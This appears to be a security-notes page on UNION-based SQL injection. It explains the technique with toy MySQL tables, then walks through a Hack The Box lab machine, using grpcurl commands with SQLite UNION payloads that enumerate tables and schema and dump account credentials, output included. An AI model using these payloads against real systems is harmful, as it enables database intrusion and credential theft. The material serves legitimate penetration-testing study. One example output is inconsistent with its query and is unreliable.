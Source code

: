 ```yaml
---
description: The Union clause is used to combine results from multiple SELECT statements.
---
```


# Union SQL injection

### What is a Union SQL injection?

Using the union clause we can combine results of multiple statements and so get the data from the entire database.&#x20;

```
mysql> SELECT * FROM superheroes;
+----------+-----------+
| code     | name      |
+----------+-----------+
| 54       | Superman  |
| 55       | Spiderman |
| 56       | Iron Man  |
+----------+-----------+
```

Our select statement above extracts all data from the table superheroes. Now lets check what the table villains will return.

```
mysql> SELECT * FROM villains;
+----------+-----------+
| Arrests  | name      |
+----------+-----------+
| 150      | Joker     |
+----------+-----------+
```

Now if we use UNION SELECT it will combine the results

```
mysql> SELECT * FROM superheroes;
+----------+-----------+
| code     | name      |
+----------+-----------+
| 54       | Superman  |
| 55       | Spiderman |
| 150      | Joker     |
| 56       | Iron Man  |
+----------+-----------+
```

{% hint style="info" %}
A `UNION` statement can only operate on `SELECT` statements with an equal number of columns.&#x20;
{% endhint %}

An example where an injection is possible in the query

```sql
SELECT * FROM products WHERE product_id = 'user_input'
```

In `'user_input'` we can inject `'1' UNION SELECT username, password from passwords-- '` to return usernames and passwords.

```sql
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '
```

### Un-even columns

Union clause only work with even columns. If we come across un-even columns we can put junk data in the remaining columns to even it out, like `SELECT 1 from passwords`.&#x20;

If we had 2 colums

```sql
'1' UNION SELECT username, 2 from passwords
```

If we had 4 columns

```sql
'1' UNION SELECT username, 2, 3, 4 from passwords-- '

# this would return
mysql> SELECT * from products where product_id UNION SELECT username, 2, 3, 4 from passwords-- '

+-----------+-----------+-----------+-----------+
| product_1 | product_2 | product_3 | product_4 |
+-----------+-----------+-----------+-----------+
|   admin   |    2      |    3      |    4      |
+-----------+-----------+-----------+-----------+
```

## SQL injection

This vulnerbality can be found in [https://www.hackthebox.com/machines/pc](https://www.hackthebox.com/machines/pc)

Using [gRPC](grpc.md) we found an sqlite3 injection vulnerability in id parameter by combining the id 542 with sqlite version with the payload `'id: "542 union select sqlite_version();"'`.

{% code overflow="wrap" %}
```bash
$ sudo docker run fullstorydev/grpcurl -d 'id: "542 union select sqlite_version();"' -H "token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoibWN6ZW4iLCJleHAiOjE3MzA5OTk3MTN9.DQC0fqjcY92Yj4bQ_RWTq3XwlCmmsCGwpWJLUjimm6I" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo      
message: "3.31.1"
```
{% endcode %}

{% hint style="info" %}
Be sure the quotes and other special chars dont break the command.
{% endhint %}

Since this is using sqllite 3 we are using sqllite 3 [payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#string-based---extract-database-structure).

<figure><img src="../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

Extracting table name

The next step is to extract the table names using the payload&#x20;

{% hint style="info" %}
`SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'`
{% endhint %}

```bash
$ sudo docker run fullstorydev/grpcurl -d 'id: "453 Union SELECT group_concat(tbl_name) FROM sqlite_master WHERE type=\"table\" and tbl_name NOT like \"sqlite_%\""' -H "token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoibWN6ZW4iLCJleHAiOjE3MzA5OTk3MTN9.DQC0fqjcY92Yj4bQ_RWTq3XwlCmmsCGwpWJLUjimm6I" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
message: "accounts,messages"
```

This returns the tables accounts and messages. Using the colums payload . We get back accounts, username, password in the table.

{% hint style="info" %}
SELECT sql FROM sqlite\_master WHERE type!='meta' AND sql NOT NULL AND name ='table\_name'
{% endhint %}

```bash
$ sudo docker run fullstorydev/grpcurl -d 'id: "453 Union SELECT sql FROM sqlite_master WHERE type!=\"meta\" AND sql NOT NULL AND name =\"accounts\""' -H "token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoibWN6ZW4iLCJleHAiOjE3MzA5OTk3MTN9.DQC0fqjcY92Yj4bQ_RWTq3XwlCmmsCGwpWJLUjimm6I" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
message: "CREATE TABLE \"accounts\" (\n\tusername TEXT UNIQUE,\n\tpassword TEXT\n)"
```

The next step is to retrieve password using the payload.

{% hint style="info" %}
`320 union select group_concat(username || ":" || password ) from accounts`
{% endhint %}

* `group_concat` will concatenate values from multiple rows into a single string
* `username || ":" || password` will concatenate columns with username password seperated by colon :.

```bash
$ sudo docker run fullstorydev/grpcurl -d 'id: "320 union select group_concat(username || \":\" || password ) from accounts"' -H "token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoibWN6ZW4iLCJleHAiOjE3MzA5OTk3MTN9.DQC0fqjcY92Yj4bQ_RWTq3XwlCmmsCGwpWJLUjimm6I" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
message: "admin:admin,sau:HereIsYourPassWord1431"
```
